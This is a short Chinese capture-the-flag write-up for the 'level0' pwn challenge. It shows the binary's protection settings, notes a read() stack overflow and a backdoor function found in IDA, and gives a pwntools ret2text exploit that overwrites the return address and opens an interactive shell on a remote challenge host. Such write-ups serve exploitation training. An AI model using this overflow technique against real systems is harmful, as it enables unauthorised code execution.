 # 知识点

ret2text



# 题目分析

1. 查看保护情况，开启NX保护。

   ```bash
   [*] '/root/Desktop/level0'
       Arch:     amd64-64-little
       RELRO:    No RELRO
       Stack:    No canary found
       NX:       NX enabled
       PIE:      No PIE (0x400000)
   ```

2. 拖入IDA分析，发现存在read栈溢出漏洞，并且存在后门函数，直接ret2text即可。

   <img src="./asset/ida1.png" alt="ida1" style="zoom: 42%;" />

   <img src="./asset/ida2.png" alt="ida2" style="zoom: 50%;" />



# Exp

```python
from pwn import *

io = process('./level0')
io = remote('node4.buuoj.cn', '28165')

backdoor = 0x400596

payload = 'A' * 0x80 + 'deadbeef' + p64(backdoor)
io.sendline(payload)

io.interactive()
```

